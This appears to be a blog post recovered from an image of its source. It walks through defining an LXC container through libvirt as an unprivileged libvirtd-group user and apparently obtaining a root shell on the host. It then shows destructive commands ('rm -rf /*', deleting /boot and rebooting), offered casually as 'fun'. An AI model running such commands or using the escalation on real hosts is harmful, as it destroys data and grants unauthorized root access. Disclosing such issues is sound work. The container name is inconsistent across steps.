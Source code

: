 ```yaml
---
layout: post
title: Docker Container Madness
---
```


I'm unsure if this is a vulnerability on the intended behaviour of LXC/Docker. 
Nevertheless, this harmless configuration file seems to cause A LOT of worry.

Preamble if you are running a Debian-based host. Make sure you have the Libvirt environment variable exported to work with LXC (e.g. `LIBVIRT_DEFAULT_URI=lxc:///` such that Libvirt doesn't go looking for Xen or KVM.
{% highlight bash %}
admin@host:~$ apt-get install docker virt-manager
# export LIBVIRT_DEFAULT_URI=lxc:///{% endhighlight %}

Create an unprivileged user and login:
{% highlight bash %}
admin@host:~$ useradd -G libvirtd user 
{% endhighlight %}
Save the following XML template, which contains a name, a memory limit, console access and a shell. E.g. container.xml
{% highlight xml %}
  <domain type='lxc'>
	  <name>container</name>
	  <memory>102400</memory>
	  <os>
		  <type>exe</type>
		  <init>/bin/sh</init>
	  </os>
	  <devices>
		  <console type='pty'/>
	  </devices>
  </domain>
{% endhighlight %}
Import container into Libvirt:
{% highlight bash %}
  user@host:~$ virsh define container.xml
{% endhighlight %}
Start the container:
{% highlight bash %}
  user@host:~$ virsh start test
  user@host:~$ virsh console test
{% endhighlight %}
And now run bash shell:
{% highlight bash %}
  Connected to domain test
  Escape character is ^]
  
  # bash
  bash: groups: command not found
  /bin/lesspipe: 1: /bin/lesspipe: basename: not found
  /bin/lesspipe: 1: /bin/lesspipe: dirname: not found
  /bin/lesspipe: 295: [: =: unexpected operator
  Command 'dircolors' is available in '/usr/bin/dircolors'
  The command could not be located because '/usr/bin' is not included in the PATH environment variable.
  dircolors: command not found
  root@host:/# 
{% endhighlight %}

Huh? You now have root on the host. 
What kind of messed up world is this? I can read/write to any file on the host:

{% highlight bash %}
  root@host:/# rm -rf /*
{% endhighlight %}

Or alternatively have a bit of fun
{% highlight bash %}
  root@host:/# rm /boot/*; reboot;
{% endhighlight %}


Is it possible to be careful with Docker? It doesn't seem safe for mortals.


{% highlight bash %}
# docker version

Client version: 1.0.1
Client API version: 1.12
Go version (client): go1.2.1
Git commit (client): 990021a
Server version: 1.0.1
Server API version: 1.12
Go version (server): go1.2.1
Git commit (server): 990021a
```
{% endhighlight %}
